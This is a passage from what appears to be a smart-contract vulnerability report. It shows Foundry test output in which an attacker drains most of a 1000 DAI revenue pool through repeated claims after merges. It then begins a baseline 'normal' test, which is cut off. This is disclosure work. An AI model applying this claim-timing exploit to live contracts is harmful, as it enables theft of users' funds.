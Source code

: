 ```solidity
    }
```

I already explained the attack above. 

The log shows: 
```
[PASS] testClaimRevenueMerge_Hacked() (gas: 11599416)
Logs:
  Choose the block.timestamp to be exact time that have modulo WEEK equal to 0
  Current block.timestamp: 1716422400
  Balance of the revenueHandler: 1000000000000000000000
  i: 0
  claimable: 19999999999851780798
  i: 1
  claimable: 29999999999932197599
  i: 2
  claimable: 39999999999856511198
  i: 3
  claimable: 49999999999932197599
  i: 4
  claimable: 59999999999854934398
  i: 5
  claimable: 69999999999925890399
  i: 6
  claimable: 79999999999847050398
  i: 7
  claimable: 89999999999913275998
  i: 8
  claimable: 99999999999832859198
  claimable: 109999999999894354398
  Balance of the attacker: 649999999998841051983

```

At the end Balance of the attacker: 649999999998841051983 DAI 

I also created a test case to show in a normal case, what the user get 

```solidity
function testClaimRevenueMerge_Normal() external {
        // Setup the scenario when PoolAdapter is zero 
        address owner = revenueHandler.owner();
        hevm.prank(owner);
        revenueHandler.setPoolAdapter(dai, address(0x00));
        hevm.stopPrank();
        // Start of the test case
        uint256 revAmt = 1000e18; // Revenue is 1000 DAI 
        address attacker = address(this);        
        address Alice = address(0x11223344); 
        address Bob = address(0x55667788);
        uint256 tokenId1 = createVeAlcx(attacker, 10*TOKEN_1, 4 weeks, false);        
        uint256 tokenId3 = createVeAlcx(Alice, 90*TOKEN_1, 4 weeks, false);        
      
        _accrueRevenueAndJump1Epoch(revAmt);

        console2.log("Balance of the revenueHandler: %s",IERC20(dai).balanceOf(address(revenueHandler)));
        console2.log("Choose the block.timestamp to be exact time that have modulo WEEK equal to 0"); 
        hevm.warp((block.timestamp / WEEK) * WEEK + WEEK );
        console2.log("Current block.timestamp: %s", block.timestamp);
        revenueHandler.checkpoint();

        uint256 claimable = revenueHandler.claimable(tokenId1, dai);        
        
```